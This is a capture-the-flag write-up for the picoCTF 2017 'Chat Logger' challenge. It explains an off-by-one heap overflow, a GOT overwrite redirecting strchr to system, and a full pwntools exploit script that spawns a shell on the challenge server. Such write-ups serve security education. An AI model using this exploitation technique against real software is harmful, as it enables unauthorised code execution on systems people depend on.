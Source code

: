 # Chat Logger
#### Writeup by hgarrereyn
* **Binary Exploitation**
* *200 points*
* Description: You've been given admin access to the chat logs for our organization to help clean up the language. See if you can get a shell on shell2017.picoctf.com:51628. chat-logger Source

# Solution

There was an off-by-one buffer overflow error in the `update_message` function that allowed you to overflow a null byte into the size descriptor for a heap object.

Then you could get the program to call realloc and overflow the buffer into what it thought was empty heap space but what was actually another heap object.

Once you got overlapping buffers, you could read the GOT table, calculate the address of `system` and overwrite an entry with that address.

I found it easiest to overwrite `strchr` which was called in `readline`:

```c
char *newline = strchr(buf, '\n');
```

That essentially becomes:

```c
char *newline = system(buf);
```

Then you simply enter the string `sh` and you have shell.

# Difficulties

It wasn't too hard to find the off by one error. Once I saw `strlen` and `malloc` calls with numbers being added, I had a gut feeling there could be an off-by-one error.

It took a bit of fiddling to get the program to malloc buffers that were right next to each other.

# Annotated Script

[**exploitChatLogger.py**]()

```python
# By Harrison Green <hgarrereyn>

from pwn import *

# Connect to the server
sock = remote('shell2017.picoctf.com', 51628)

# Helper function to consume input
def n():
	a = sock.recv()
	print(a)
	return a

# select the last message of room #2
sock.send('find 2 funny\n')
n()

# Create the A buffer
sock.send('add 1 ' + ('a' * 48) + '\n')
n()
sock.send('find 2 a\n')
n()

# Create the B buffer
sock.send('add 1 ' + ('b' * 200) + '\n')
n()
sock.send('find 2 b\n')
n()

# Create the C buffer
sock.send('add 1 ' + ('c' * 40) + '\n')
n()

# Overflow A
# Now, the B buffer has size zero and can be overwritten
# although we still retain a pointer to it
sock.send('find 2 a\n')
n()
sock.send('edit ' + ('a' * 54) + '\n')
n()

# We can now overlap the A and B buffers completely. Specifically,
# we will overwrite the text pointer with a GOT address in buffer B.
#
# If we had not done the last step, the realloc() call would return
# a different pointer because there wouldn't be enough space to expand
# buffer A.
#
# strchr@GOT: 0x601e60
sock.send('edit ' + ('a' * 78) + '\x5e\x1e\x60' + '\n')
n()

# The offset of libc functions - found by running this binary on
# the webshell.
#
# <strchr> - 256766 = <system>
offset = - 256766

# This will print out all the messages, including the pointer
# to <strchr> that we set earlier.
sock.send('chat 2\n')

# Some pythonic magic to parse the GOT address for <strchr>
chat = sock.recvuntil('ccc').split('\n')
l = chat[len(chat) - 3]
l2 = "".join([hex(ord(x))[2:].zfill(2) for x in l][-6:][::-1])

# Got the address
print('strchr: ' + l2)

# Calculate system address
strchr = int(l2,16)
sys = strchr + offset
sys_addr = hex(sys)[2:].decode('hex')

# Got system address
print('system: ' + hex(sys))

# We are editing the message with a text pointer that is now
# pointing into the GOT table at strchr
sock.send('edit ' + sys_addr[::-1] + '\n')

# Now when we send this, it will be called by system()
sock.send('sh\n')

# We've got shell
sock.interactive()
```
